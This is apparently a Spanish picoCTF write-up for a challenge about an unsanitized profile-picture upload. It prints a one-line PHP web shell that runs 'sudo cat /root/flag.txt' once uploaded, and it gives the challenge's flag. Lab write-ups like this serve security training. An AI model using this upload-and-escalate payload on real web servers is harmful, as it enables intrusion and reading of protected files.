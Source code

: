 ## Descripción 
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.
You can access the web application [here](http://standard-pizzas.picoctf.net:56834/)!

Hint:
1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check `sudo -l`
## Solución 1

Ingresamos a la página y nos dice que podemos subir archivos php, subimos un archivo cualquiera php y lo carga directamente con /uploads entonces la hint nos dice que usemos sudo -l, en un archivo php usamos el sudo y tenemos permisos en la página, modificamos el sudo y agregamos un cat para leer e ingresamos al root y buscamos y leemos la bandera

```
shell.php
<?php echo exec("sudo cat /root/flag.txt");?>
 
flag: picoCTF{wh47_c4n_u_d0_wPHP_4043cda3}
```
